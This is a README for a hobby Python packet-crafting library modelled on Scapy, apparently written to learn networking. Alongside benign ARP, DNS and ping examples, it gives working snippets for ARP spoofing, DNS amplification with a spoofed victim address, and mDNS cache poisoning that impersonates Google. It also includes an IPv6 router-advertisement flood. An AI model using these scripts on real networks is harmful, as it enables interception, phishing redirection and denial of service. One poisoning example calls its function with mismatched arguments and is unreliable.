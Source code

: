 # OriScapy
This is a custom-made version of the well known [Scapy library for python](https://scapy.net/).


## Rationale
In my journey of learning about the fascinating world of Networking, I realised that Scapy    
is something im using all the time, without needing to worry about all the     
stuff it does in the background automatically.   
For example, when crafting an ARP request:

```python
pkt = Ether()/ARP(pdst="<Get_This_IP's_Mac")
mac = srp1(pkt)[ARP].hwsrc
```

Scapy automatically fills a good deal of fields of the ARP header.    
for example, you don't have to worry about these fields:
```text
  hwtype, ptype, hwlen, plen, op, hwsrc, psrc, hwdst      
```
Which Scapy automatically fills according to the [RFC Specification](https://datatracker.ietf.org/doc/html/rfc826) / [ARP packet header](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure)

Also, no parameters were given to the `Ether` class constructor,   
although the Ethernet header obviously contains some info:
```text
dst, src, type
```

All those fields are automatically completed by Scapy for your own comfort.   
Scapy automatically detects the type of packet to be sent is ARP,  
And so it sets the `type` field to `0x806 (ARP)`, like it should be.   
Also, the `Source MAC` and the `Destination MAC` are automatically detected and filled.

And so I wanted for my knowledge about Networking, to learn more about  
the most famous packets' header format.   
And to do that I thought to make my own Scapy which would support    
Ethernet, ARP, IP, ICMP, UDP, DNS and maybe more in the future.

## Usage
**First of all, don't. Please just use [Scapy](https://pypi.org/project/scapy/).**   
But if you insist, then its basically the same as Scapy. Here are some examples:    
**__Note that OriScapy only works on Linux.__**     
#### ARP Queries

```python
from All import *

ip = "192.168.1.2"

# Resolve 192.168.1.2's MAC Address
pkt = Ether()/ARP(pdst=ip)  # Everything is auto-completed :)
ans = sendreceive(pkt)
print(f"{ip}'s MAC address is {ans.hwsrc}")
```

#### ARP Spoofing/Cache Poisoning
```python
from All import *

def poison(target_ip, target_mac, fake_ip, fake_mac, count=50):
    pkt = Ether(src=fake_mac)/ARP(hwsrc=fake_mac, psrc=fake_ip, hwdst=target_mac, pdst=target_ip, opcode=2)
    for _ in range(count):
        send(pkt)

poison(pkt, count=50)

```


#### DNS Queries
(No support for Additional and Authorative RRs)
```python
from All import *  
  
# Resolve google.com by querying google's DNS server (8.8.8.8)  
pkt = Ether()/IP(dst="8.8.8.8")/UDP(dport=53)/DNS(qd=DNSQR(qname="google.com"))  
ans = sendreceive(pkt, timeout=3)

for answer_record in ans.an:
    print(answer_record.rdata)
```

#### DNS Amplification
```python
from All import *

def dns_amp(target_ip):
    pkt = Ether()/IP(src=target_ip, dst="ip.of.dns.server")/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="google.com", qtype=255))
    send(pkt)

dns_amp("192.168.1.2")
```

#### Resolve Hostname in LAN
```python
from All import *  
  
# To query the local LAN for the IP of hostname "myHostname"  
# a DNS Query is sent to multicast ip "224.0.0.251" and port 5353, also known as  
# multicast-DNS (mDNS). Inside the query, the qname should be "hostname"+".local"  
  
pkt = Ether()/IP(dst="224.0.0.251")/UDP(dport=5353)/DNS(qd=DNSQR(qname="myHostname.local"))  
  
# IP may come back either to the multicast address, or directly to the host PC's IP.
# Which means that you can't tell whether a packet is an answer to `pkt` based on
# the dst and src IP inside it, so we set flipIP to False
ans = sendreceive(pkt, flipIP=False)  
  
for answer_record in ans.an:  
    print(answer_record.rdata)
```
    

#### mDNS Cache Poisoning 
```python
from All import *

myIpv4 = "192.168.1.47"

def ismatch_mdns(pkt: Ether):
    return UDP in pkt and 5353 in (pkt[UDP].sport, pkt[UDP].dport) and DNSQR in pkt

def onmatch_mdns(pkt: Ether):
    """
    Receives a mDNS packet and reply with a spoofed packet saying
    that myIpv4 is the IP of that mDNS domain name.

    For example, when a user mistypes "google" for e.g. "goggle", 
    the user's PC queries the LAN for Domain <=> IP using mDNS.
    At that point we reply with our own IP, and the user goes
    to our website thinking we're google.
    :param pkt: Ether
    :return: None
    """

    isIPv6 = IPv6 in pkt

    if isIPv6:
        psrc = pkt[IPv6].psrc
    else:
        psrc = pkt[IP].psrc
    
    sport = pkt[UDP].sport
    dport = pkt[UDP].dport
    name = pkt[DNSQR][0].qname

    print(f"Spoofing response for: {name} from ip: {psrc} -> {myIpv4}")

    eth = Ether(dst=pkt.src)
    udp = UDP(sport=dport, dport=sport)
    dns = DNS(id=pkt[DNS].id, aa=1, an=DNSRR(name=name, ttl=120, rdata=myIpv4))

    # Windows sends both IPv4 and IPv6 packets (with the same DNSQR), so we
    # need to check if the packet is IPv6 or IPv4 and send the correct packet.

    if isIPv6:
        spoofed_response = eth/IPv6(pdst=psrc)/udp/dns
    else:
        spoofed_response = eth/IP(pdst=psrc)/udp/dns

    send(spoofed_response)

sniff(ismatch_mdns, onmatch_mdns)

```

#### Router Advertisement Flood (AKA flood_router6)
```python
from All import *

# Floods all nodes (ff02::1) with 100 router advertisements.
# hop limit of 255 is required (from the RFC of NDP).

# More documentation soon.

for i in range(1, 100):
    i = str(i).zfill(2)
    srcmac = f"de:ad:00:00:00:{i}"
    psrc = f"fe80::{i}"
    prefix = f"2a01:0:0:0{i}::"
    pkt = Ether(src=srcmac, dst="33:33:00:00:00:01")/IPv6(psrc=psrc, pdst="ff02::1", hoplimit=255)/NDPRouterAdv(srcmac, prefix)
    send(pkt)
```

#### Ping an IP
```python
from All import *

# Ping google's DNS server
pkt = Ether()/IP(dst="8.8.8.8")/ICMP()
res = sendreceive(pkt, timeout=2)
print(res)
```